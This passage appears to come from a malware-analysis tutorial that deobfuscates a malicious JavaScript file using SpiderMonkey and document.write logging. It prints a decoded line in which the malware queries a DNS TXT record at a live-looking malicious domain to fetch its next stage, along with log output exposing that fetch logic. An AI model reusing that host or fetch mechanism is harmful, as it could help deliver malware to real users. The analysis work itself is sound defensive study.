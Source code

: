 Lets replace line 1 of .\malicious.js with the decoded value of the string.

{% highlight JavaScript linenos %}
var v = "https://dns.google.com/resolve?name=fetch.slzxkcee.glamisbound.com&type=TXT";
{% endhighlight JavaScript %}

Running the script again gives an error message about "XMLHttpRequest".  This is fine, we know that most of the script is running now.  There are no output or write.log to know what this script does.  

Beware at this point your VM may be infected.  Depending on what you're analyzing and whether the sandbox is connected to the internet or not, you may want to restart your Sandbox (from a clean snapshot).

Lets add some `document.write` to the script to figure out what the script is doing.  By adding these `document.write` and using SpiderMonkey, we can dump the obfuscated strings to 'write.log' file.  Using this method, we will be able to deobfuscate the script.

Here is some of the `document.write` that I added to the script (more specifically prior to the "XMLHttpRequest()" function):


{% highlight JavaScript linenos %}
document.write("XMLHttpRequest => "+ _0x58060d(_0x58f7('0xe')) + " " + (_0x58060d(_0x58f7('0xf')))  + " " + v  + " " + "\n");
document.write("_0x58060d(_0x58f7('0x10')): " +_0x58060d(_0x58f7('0x10'))+ "\n");
document.write("_0x58060d(_0x58f7('0x11')): " +_0x58060d(_0x58f7('0x11'))+ "\n");
document.write("_0x58060d(_0x58f7('0x12')): " +_0x58060d(_0x58f7('0x12'))+ "\n");
document.write("_0x58060d(_0x58f7('0x13')): " +_0x58060d(_0x58f7('0x13'))+ "\n");
document.write("_0x58060d(_0x58f7('0x14')): " +_0x58060d(_0x58f7('0x14'))+ "\n");
document.write("_0x58060d(_0x58f7('0x15')): " +_0x58060d(_0x58f7('0x15'))+ "\n");
document.write("_0x58f7('0x16')): " +(_0x58f7('0x16'))+ "\n");
document.write("_0x58060d(_0x58f7('0x17)): " +_0x58060d(_0x58f7('0x17'))+ "\n");
document.write("_0x58060d(_0x58f7('0x18')): " +_0x58060d(_0x58f7('0x18'))+ "\n");
document.write("_0x58060d(_0x58f7('0x19')): " +_0x58060d(_0x58f7('0x19'))+ "\n");
document.write("_0x58060d(_0x58f7('0x1a')): " +_0x58060d(_0x58f7('0x1a'))+ "\n");
document.write("_0x58f7('0x1b'): " + _0x58f7('0x1b')+ "\n");
document.write("_0x58f7('0x1c'): " + _0x58f7('0x1c')+ "\n");
document.write("_0x58060d(_0x58f7('0x1d')): " +_0x58060d(_0x58f7('0x1d'))+ "\n");
document.write("_0x58060d('0xd'): " + _0x58060d('0xd') );
{% endhighlight JavaScript %}

Here is the partial content of write.log after running the script with SpiderMonkey:

```
XMLHttpRequest => open GET https://dns.google.com/resolve?name=fetch.slzxkcee.glamisbound.com&type=TXT
_0x58f7: Input: 16,undefined, output:0x2
_0x58060d: Input: 2,undefined, output:onreadystatechange
_0x58060d(_0x58f7('0x10')): onreadystatechange
_0x58f7: Input: 17,undefined, output:0x3
_0x58060d: Input: 3,undefined, output:status
_0x58060d(_0x58f7('0x11')): status
_0x58f7: Input: 18,undefined, output:0x4
_0x58060d: Input: 4,undefined, output:readyState
_0x58060d(_0x58f7('0x12')): readyState
_0x58f7: Input: 19,undefined, output:0x5
_0x58060d: Input: 5,undefined, output:parse
_0x58060d(_0x58f7('0x13')): parse
_0x58f7: Input: 20,undefined, output:0x6
_0x58060d: Input: 6,undefined, output:responseText
_0x58060d(_0x58f7('0x14')): responseText
_0x58f7: Input: 21,undefined, output:0x7
_0x58060d: Input: 7,undefined, output:Answer
_0x58060d(_0x58f7('0x15')): Answer
_0x58f7: Input: 22,undefined, output:data
_0x58f7('0x16')): data
_0x58f7: Input: 23,undefined, output:0x8
_0x58060d: Input: 8,undefined, output:createElement
```